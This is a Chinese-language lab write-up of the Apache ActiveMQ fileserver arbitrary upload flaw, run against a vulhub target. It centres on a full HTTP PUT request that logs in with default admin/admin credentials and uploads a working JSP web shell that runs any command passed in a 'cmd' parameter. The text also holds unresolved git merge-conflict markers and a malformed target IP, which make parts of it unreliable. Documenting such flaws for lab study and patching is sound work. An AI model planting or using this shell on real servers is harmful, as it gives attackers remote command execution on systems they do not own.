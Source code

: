 #### ActiveMQ任意文件上传漏洞

该漏洞出现在fileserver应用中,ActiveMQ中的fileserver服务允许用户通过HTTP  PUT方法上传文件到指定目录。Fileserver支持写入文件(不解析jsp),但是支持移动文件(Move)我们可以将jsp的文件PUT到Fileserver下,然后再通过Move指令移动到可执行目录下访问

使用vulhub一键搭建，靶机kali：192.168.1771.37



```
docker-compose up -d
```

环境搭建成功，浏览器访问：http://IP:8161

<<<<<<< HEAD
![1](1.png)

![2](2.png)
=======
![1](ActiveMQ任意文件上传漏洞\1.png)

![2](ActiveMQ任意文件上传漏洞\2.png)
>>>>>>> 1f166b9d... 更新

登录admin账号：默认账号admin/admin，抓包进行修改，使用PUT方法上传文件。ActiveMQ  Web控制台分为三个应用程序：其中admin，api和fileserver，其中admin是管理员页面，api是界面，fileserver是用于存储文件的界面；admin和api需要先登录才能使用，fileserver不需要登录。

 上传jsp文件（系统不稳定，有时成功有时失败），

<<<<<<< HEAD
![3](3.png)
=======
![3](ActiveMQ任意文件上传漏洞\3.png)
>>>>>>> 1f166b9d... 更新

```
PUT /fileserver/2.jsp HTTP/1.1
Host: 192.168.177.137:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: JSESSIONID=18wws8yzr1a04iz9gfpkkar3p
Authorization: Basic YWRtaW46YWRtaW4=
X-Forwarded-For: 8.8.8.8
Connection: close
Content-Length: 329

<%@ page import="java.io.*"%>
<%
 out.print("Hello</br>");
 String strcmd=request.getParameter("cmd");
 String line=null;
 Process p=Runtime.getRuntime().exec(strcmd);
 BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
 while((line=br.readLine())!=null){
 out.print(line+"</br>");
 }
%>
```

<<<<<<< HEAD
![4](4.png)

 使用MOVE方法移动文件，成功的包没截上，再次上传是500回显，文件已经上传成功，访问地址，成功解析jsp

![5](5.png)

![6](6.png)
=======
![4](ActiveMQ任意文件上传漏洞\4.png)

 使用MOVE方法移动文件，成功的包没截上，再次上传是500回显，文件已经上传成功，访问地址，成功解析jsp

![5](ActiveMQ任意文件上传漏洞\5.png)

![6](ActiveMQ任意文件上传漏洞\6.png)
>>>>>>> 1f166b9d... 更新

 

漏洞影响版本：Apache ActiveMQ 5.x ~ 5.14.0

1、ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本。

2、通过移除 `conf\jetty.xml` 的以下配置来禁用 ActiveMQ Fileserver 功能

<<<<<<< HEAD
![7](7.png)
=======
![7](ActiveMQ任意文件上传漏洞\7.png)
>>>>>>> 1f166b9d... 更新



